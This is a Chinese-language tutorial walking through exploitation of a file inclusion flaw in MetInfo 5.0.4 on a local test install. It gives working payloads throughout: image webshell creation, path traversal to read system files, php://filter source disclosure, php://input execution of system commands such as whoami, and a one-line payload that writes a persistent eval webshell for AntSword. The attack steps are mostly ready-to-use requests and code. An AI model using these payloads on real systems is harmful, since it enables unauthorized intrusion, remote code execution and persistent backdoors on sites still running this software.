## metinfo案例

以[metinfo_5.0.4](http://v.metinfo.cn/dowload.php?ver=5.0.4)为例

该环境的文件上传点在`admin`路径下



但是上传文件会失败，

所以直接在网站的`upload\file`下放入图片木马

---

文件包含漏洞利用点：`/about/index.php?fmodule=7&module=[filePath]`

##### 1、蚁剑直接连接图片马

图片马制作：

```php
copy 1.jpg/b+1.php/a 22.jpg
```

上传图片木马，通过文件包含的方式去访问

```php
http://127.0.0.1/MetInfo5.0.4//about/index.php?fmodule=7&module=../upload/file/22.jpg
```



使用蚁剑连接





#####  2、读取敏感目录

```php
http://127.0.0.1/MetInfo5.0.4//about/index.php?fmodule=7&module=../../../../../../../../../../../windows/system32/drivers/etc/hosts
```



##### 3、读取php源码

```php
http://127.0.0.1/MetInfo5.0.4/about/index.php?fmodule=7&module=php://filter/read=convert.base64-encode/resource=show.php
```



读取结果：

```php
PD9waHANCiMgTWV0SW5mbyBFbnRlcnByaXNlIENvbnRlbnQgTWFuYWdlbWVudCBTeXN0ZW0gDQojIENvcHlyaWdodCAoQykgTWV0SW5mbyBDby4sTHRkIChodHRwOi8vd3d3Lm1ldGluZm8uY24pLiBBbGwgcmlnaHRzIHJlc2VydmVkLiANCnJlcXVpcmVfb25jZSAnLi4vaW5jbHVkZS9jb21tb24uaW5jLnBocCc7DQppZighJGlkICYmICRjbGFzczEpJGlkID0gJGNsYXNzMTsNCiRzaG93ID0gJGRiLT5nZXRfb25lKCJTRUxFQ1QgKiBGUk9NICRtZXRfY29sdW1uIFdIRVJFIGlkPSRpZCBhbmQgbW9kdWxlPTEiKTsNCmlmKCEkc2hvd3x8ISRzaG93Wydpc3Nob3cnXSl7DQpva2luZm8oJy4uLzQwNC5odG1sJyk7DQp9DQokbWV0YWNjZXNzPSRzaG93W2FjY2Vzc107DQppZigkc2hvd1tjbGFzc3R5cGVdPT0zKXsNCiRzaG93MyA9ICRkYi0+Z2V0X29uZSgiU0VMRUNUICogRlJPTSAkbWV0X2NvbHVtbiBXSEVSRSBpZD0nJHNob3dbYmlnY2xhc3NdJyIpOw0KJGNsYXNzMT0kc2hvdzNbYmlnY2xhc3NdOw0KJGNsYXNzMj0kc2hvd1tiaWdjbGFzc107DQokY2xhc3MzPSRzaG93W2lkXTsNCn1lbHNlew0KJGNsYXNzMT0kc2hvd1tiaWdjbGFzc10/JHNob3dbYmlnY2xhc3NdOiRpZDsNCiRjbGFzczI9JHNob3dbYmlnY2xhc3NdPyRpZDoiMCI7DQokY2xhc3MzPTA7DQp9DQoNCnJlcXVpcmVfb25jZSAnLi4vaW5jbHVkZS9oZWFkLnBocCc7DQokY2xhc3MxX2luZm89JGNsYXNzX2xpc3RbJGNsYXNzMV07DQokY2xhc3MxX2xpc3Q9JGNsYXNzMV9pbmZvOw0KJGNsYXNzMl9pbmZvPSRjbGFzc19saXN0WyRjbGFzczJdOw0KJGNsYXNzM19pbmZvPSRjbGFzc19saXN0WyRjbGFzczNdOw0KJHNob3dbY29udGVudF09Y29udGVudHNob3coJzxkaXY+Jy4kc2hvd1tjb250ZW50XS4nPC9kaXY+Jyk7DQokc2hvd1tkZXNjcmlwdGlvbl09JHNob3dbZGVzY3JpcHRpb25dPyRzaG93W2Rlc2NyaXB0aW9uXTokbWV0X2tleXdvcmRzOw0KJHNob3dba2V5d29yZHNdPSRzaG93W2tleXdvcmRzXT8kc2hvd1trZXl3b3Jkc106JG1ldF9rZXl3b3JkczsNCiRtZXRfdGl0bGU9JG1ldF90aXRsZT8kc2hvd1snbmFtZSddLictJy4kbWV0X3RpdGxlOiRzaG93WyduYW1lJ107DQppZigkc2hvd1snY3RpdGxlJ10hPScnKSRtZXRfdGl0bGU9JHNob3dbJ2N0aXRsZSddOw0KcmVxdWlyZV9vbmNlICcuLi9wdWJsaWMvcGhwL21ldGh0bWwuaW5jLnBocCc7DQppbmNsdWRlIHRlbXBsYXRlKCdzaG93Jyk7DQpmb290ZXIoKTsNCiMgVGhpcyBwcm9ncmFtIGlzIGFuIG9wZW4gc291cmNlIHN5c3RlbSwgY29tbWVyY2lhbCB1c2UsIHBsZWFzZSBjb25zY2lvdXNseSB0byBwdXJjaGFzZSBjb21tZXJjaWFsIGxpY2Vuc2UuDQojIENvcHlyaWdodCAoQykgTWV0SW5mbyBDby4sIEx0ZC4gKGh0dHA6Ly93d3cubWV0aW5mby5jbikuIEFsbCByaWdodHMgcmVzZXJ2ZWQuDQo/
```

**得出base64编码格式的数据，使用bp的Decoder功能进行base64解码**



也可以利用`HackBar`浏览器插件



复制得到的base64编码格式的php代码



点击 OK



解码成功！

##### 4、执行PHP命令

bp拦截得到php源码的数据包



发送到`Repeater`模块

把`GET包`该成`POST数据包`




得到POST数据包



把POST请求体中的变量放到url中提交

**虽然说是POST数据包，但是POST数据包的url中也可以用GET参数**



把`fmodule=7&module=`的值改成`php://input`，然后在下面写入php代码，点击send

```php
<?php phpinfo();?>
```




执行系统代码

```php
<?php 
system("whoami")
?>
```



```php
<?php 
system("ipconfig")
?>
```



##### 5、包含木马写Shell （图片马制作新方法）

```php
<?php fputs(fopen("shell.php",'w'),'<?=@eval($_REQUEST[777]);phpinfo();?>')?>
```

该段代码的含义是，在当前目录下创建一个名为`shell.php`的文件，内容为`<?php phpinfo();?>`，当我们直接包含图片的时候，这段代码就会被执行


重新再`upload\file`下放入一张没有木马的图片，使用另一种方式制作图片木马

`点击图片---右键属性---详细信息`




点击`应用`，点击`确定`

在浏览器中访问图片`http://127.0.0.1/MetInfo5.0.4/upload/file/1.jpg`，图片正常显示



使用文件包含的方式去访问图片

```php
http://127.0.0.1/MetInfo5.0.4/about/index.php?fmodule=7&module=../upload/file/1.jpg
```

页面显示如下：



随即发现在`upload`文件夹中有个新建文件shell.php，即可用蚁剑连接




